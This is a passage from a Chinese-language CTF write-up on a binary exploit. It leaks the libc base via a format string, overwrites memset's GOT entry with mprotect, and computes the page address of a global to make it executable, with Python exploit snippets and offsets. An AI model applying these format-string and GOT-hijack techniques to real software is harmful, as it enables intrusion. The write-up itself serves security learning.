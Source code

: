 這其實不一定每次都會成功，因為我使用的是 `"%s"` 去印出記憶體位置，如果記憶體位置中前六個 byte 有 `0x00` 出現的話，就沒辦法 Leak 出完整的記憶體位置。選了一陣子後發現 `printf` 的位置裡面最不會出現 `0x00` 的問題，所以我最後是選用 `printf` 來 leak libc 的 base address。

#### Hijack Memset 2 Mprotect

我們的目標是執行 `mprotect`，但現在並沒有一個可控的位置可以讓我們簡單的呼叫 `mprotect` syscall 達成修改 memory permission，所以需要一個程式中本來就有的塞入三個 parameters 執行 function 的地方。觀察一下 `myset` 的實作：

```c++
void myset(char *addr)
{
    int c;
    size_t len;

    printf("data > ");
    scanf("%d", &c);
    printf("length > ");
    scanf("%lu", &len);

    if (len > 0x10) {
        puts("Too more");
        return;
    }
    memset(addr, c, len);
}
```

`memset` 吃了三個參數，其中兩個還是使用者可控，檢查限制還剛好符合我們需要的數字（`len` 是放 permission 的位置，但 `0x7` 就可以 RWX 了），所以下一個目標就是 Hijack `memset` 的 got 成 `mprotect` 的位置後，再觸發 `myset` 就可以呼叫 `mprotect` 了：

```python
ADDR_MPROTECT = BASE_LIBC + 0x11bb00
ADDR_MEMSET_GOT = BASE_PIE + 0x118b + 0x2ecd
frt_write_value2addr(ADDR_MEMSET_GOT, ADDR_MPROTECT)
```

#### 修改 Global 所在的 Page Mem Permission

根據 [mprotect(2) — Linux manual page](https://man7.org/linux/man-pages/man2/mprotect.2.html) 上提到：

> mprotect() changes the access protections for the calling
> process's memory pages containing any part of the address range
> in the interval [addr, addr+len-1]. **addr must be aligned to a
> page boundary.**

我們除了要拿到 `global` 的位置外，還要藉著這個記憶體位置算出整個 page 的起始位置：

```python
send_cmd2srv("global", "read", "%7$lx\n")
send_cmd2srv("global", "write")
ADDR_GLOBAL_VAR = int(r.recv(12).decode(), 16)
```

但這裡有兩個問題。第一個是，`myset` 中的 addr 來源在一般狀況下只能是 `local` 或 `global`，如果用一般 `frt_write_value2addr` 把整個 page addr 寫進 ptr，因為次數的緣故每次寫入 ptr 會被蓋掉，我們想要的效果就會消失。剛剛好有個特製的 Payload 可以暫時把 `ptr` 改成 page 的 addr：

```python
# 因為只需要寫一個 2 byte 的 Payload 所以整個流程只要寫一次而已
frt_write_value2addr(ADDR_CNT+0x4, (ADDR_GLOBAL_VAR & 0xFFFF) - 0xb0)
```
